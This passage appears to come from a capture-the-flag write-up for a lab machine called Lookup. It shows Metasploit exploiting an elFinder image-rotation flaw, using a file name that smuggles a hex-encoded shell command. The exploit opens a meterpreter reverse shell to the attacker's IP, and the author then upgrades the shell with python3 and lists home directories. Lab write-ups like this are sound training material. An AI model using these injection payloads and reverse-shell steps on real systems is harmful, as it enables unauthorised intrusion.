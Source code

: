 ```bash
[*] Started reverse TCP handler on 10.14.104.180:4444 
[*] Uploading payload 'cdmWhsy.jpg;echo 6370202e2e2f66696c65732f63646d576873792e6a70672a6563686f2a202e4b4647527666352e706870 |xxd -r -p |sh& #.jpg' (1957 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.KFGRvf5.php) ...
[*] Sending stage (40004 bytes) to 10.10.159.119
[+] Deleted .KFGRvf5.php
[*] Meterpreter session 2 opened (10.14.104.180:4444 -> 10.10.159.119:44608) at 2025-05-28 17:07:17 +0100
shell
[*] No reply
[*] Removing uploaded file ...
[+] Deleted uploaded file

meterpreter > shell
```
Metasploit will upload a malicious .jpg file that cointains a ```reverse shell``` with the payload set for ```meterpreter```. Once we see “Meterpreter session X opened…” we can type ```shell``` to interact with the machine.

We have a shell as the ```www-data``` user, in the directory ```/var/www/files.lookup.thm/public_html/elFinder/php```

```bash
whoami
www-data

pwd
/var/www/files.lookup.thm/public_html/elFinder/php
```

We attempt to upgrade our shell using the command ```python -c "import pty;pty.spawn('/bin/bash')”```, but fails as python is not installed on the machine
```bash
python -c "import pty;pty.spawn('/bin/bash')"
/bin/sh: 5: python: not found
```
We try again the same command but for ```python3``` and we successfully upgrade the shell


```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$
```
Navigating to the home directory, we discover a ```think``` directory that is possibly a user. We have ```RX rights``` so let's open the think directory and using the command ```ls```, we find our user flag location.


```bash
cd /
www-data@lookup:/$ ls
ls
bin   etc   lib32   lost+found  opt   run        snap      sys  var
boot  home  lib64   media       proc  sbin       srv       tmp
dev   lib   libx32  mnt         root  seddc5fn0  swap.img  usr
www-data@lookup:/$ cd home
cd home
www-data@lookup:/home$ ls
ls
think
www-data@lookup:/home$ 
www-data@lookup:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root  root  4096 Jun  2  2023 .
drwxr-xr-x 19 root  root  4096 Jan 11  2024 ..
```